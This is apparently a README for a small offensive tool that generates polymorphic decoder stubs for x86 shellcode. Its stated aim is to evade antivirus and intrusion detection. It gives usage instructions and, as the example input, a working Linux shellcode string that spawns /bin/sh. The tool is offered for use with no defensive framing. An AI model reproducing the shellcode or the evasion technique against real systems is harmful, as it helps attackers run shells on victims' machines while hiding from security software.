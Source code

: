 polymorph-that-shell
====================


Polymorph-that-shell is a simple polymorphic engine to dynamically encode (Insertion-Encoder) shellcode. Therefore "everytime" the decoder stub is created in another way (polymorph). This may avoid antivirus and IDS protection.

System requirements: linux x86 environment, python 2.7, nasm, ld, objdump

Usage: ./polymorphThatShell.sh [SHELLCODE_IN_C_FORMAT|SHELLCODE_FILE]

Example 1: ./polymorphThatShell.sh "\x31\xc0\xb0\x0b\x31\xdb\x53\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x8d\x54\x24\x08\x8d\x4c\x24\x08\xcd\x80"

Example 2: ./polymorphThatShell.sh -f shellFile


You also can use a simple GUI by calling the ./gui.pyw script
